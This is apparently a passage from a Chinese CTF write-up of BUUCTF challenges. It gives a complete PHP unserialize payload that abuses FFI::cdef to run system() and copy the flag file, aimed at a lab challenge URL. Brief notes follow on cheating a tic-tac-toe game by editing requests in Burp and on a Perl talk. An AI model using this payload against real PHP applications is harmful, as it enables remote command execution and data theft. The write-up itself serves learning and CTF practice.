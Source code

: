 ```php
$a = new A();
echo urlencode(serialize($a));
```

```
http://f700efac-15ac-49d3-add3-50a452221de2.node4.buuoj.cn:81/?a=unserialize(urldecode('C%3A1%3A%22A%22%3A95%3A%7Ba%3A3%3A%7Bs%3A3%3A%22ret%22%3BN%3Bs%3A4%3A%22func%22%3Bs%3A9%3A%22FFI%3A%3Acdef%22%3Bs%3A3%3A%22arg%22%3Bs%3A32%3A%22int+system%28const+char+%2Acommand%29%3B%22%3B%7D%7D'))->ret->system('cat /flag > /var/www/html/res.txt');
```

![image-20221224121342138](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212241213217.png)

看 wp 的时候发现有人提到说需要把 `__serialize()` 方法的定义删掉才行

翻了下官方文档

![image-20221224121557908](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212241215972.png)

[https://www.php.net/manual/zh/class.serializable](https://www.php.net/manual/zh/class.serializable)

![image-20221224121626391](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212241216513.png)

自己生成 payload 时的 php 版本为 7.2, 所以没有这个问题, 大于 7.4 版本就需要删了

然后提一句, 继承了 Serializable 接口的类序列化后得到的字符串以 `C` 开头而不是 `O`

另外这个接口的序列化/反序列化逻辑感觉跟 java 挺像的 (

## [BSidesCF 2019]Pick Tac Toe

一开始没搞懂要干什么, 看到 cookie 中的 `rack.session` 还在想是不是 ruby 反序列化

然后发现是要下棋...

```
ul u ur
l  c r
bl b br
```

从浏览器的角度来看, 机器人下过的地方我们是点不了的

但是可以通过 burp 抓包来修改, 改到一处机器人下过的地方, 就能拿到 flag

![image-20221224131256312](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212241312403.png)

## [CSAWQual 2016]i_got_id

black asia 2016 的议题, 挺有意思的

[https://www.blackhat.com/docs/asia-16/materials/asia-16-Rubin-The-Perl-Jam-2-The-Camel-Strikes-Back.pdf](https://www.blackhat.com/docs/asia-16/materials/asia-16-Rubin-The-Perl-Jam-2-The-Camel-Strikes-Back.pdf)
